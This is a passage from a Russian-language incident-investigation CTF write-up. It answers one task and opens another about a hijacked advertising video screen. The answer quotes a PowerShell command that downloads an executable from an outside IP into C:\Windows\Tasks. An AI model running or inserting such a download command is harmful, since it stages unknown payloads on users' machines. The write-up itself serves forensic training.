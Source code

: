 ![](../../Attachments/sScreenshot_1_2.png)

Видим, что в `object.value` содержится несколько объединенных команд.
Выделим нужную и получим верный ответ - iwr -uri http://10.126.10.10:13337/wtf.exe -outfile C:\Windows\Tasks\wtf.exe
### Подмена контента на рекламном видеоэкране / Задание 2.1

*Руководитель отдела информационной безопасности City в бешенстве: несколько часов назад, в момент, когда он докладывал начальству о достижении высокого уровня защищенности городских систем, злоумышленники взломали рекламный экран в центре столицы и включили горожанам неприятные для просмотра ролики.*
*Укажите FQDN атакуемого актива.*

